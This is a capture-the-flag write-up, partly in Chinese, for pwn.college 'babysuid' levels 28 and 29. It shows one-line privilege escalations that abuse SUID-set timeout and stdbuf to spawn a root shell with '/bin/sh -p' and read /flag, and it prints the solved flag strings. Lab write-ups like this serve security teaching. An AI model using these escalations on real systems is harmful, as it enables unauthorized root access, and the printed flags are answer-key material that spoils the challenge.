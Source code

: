 ## level28 Enables you to read flags by making them execute other commands!

```
hacker@program-misuse-level-28:~$ sh file.sh
Welcome to ./babysuid_level28!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/timeout.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level28) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/timeout!
```
`timeout`工具：用来指定时间后杀死进程的。
```
hacker@program-misuse-level-28:~$ timeout 1h /bin/sh -p
# cat /flag
pwn.college{sWxHBmerdB7TO79CXDlkRtygh4x.0FM3EDL2QjMyMzW}
#
```
这个需要注意指定一个时间

## level29 Enables you to read flags by making them execute other commands!

```
hacker@program-misuse-level-29:~$ sh file.sh
Welcome to ./babysuid_level29!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/stdbuf.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level29) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/stdbuf!
```
`stdbuf`工具：修改标准流的缓冲模式和大小
```
hacker@program-misuse-level-29:~$ stdbuf --input=512K /bin/sh -p
# cat /flag
pwn.college{IHf3mOmt5d10g3StOZp5S0AMAfJ.0VM3EDL2QjMyMzW}
#
```
别用man，真的不好用

## level30 Enables you to read flags by making them execute other commands!
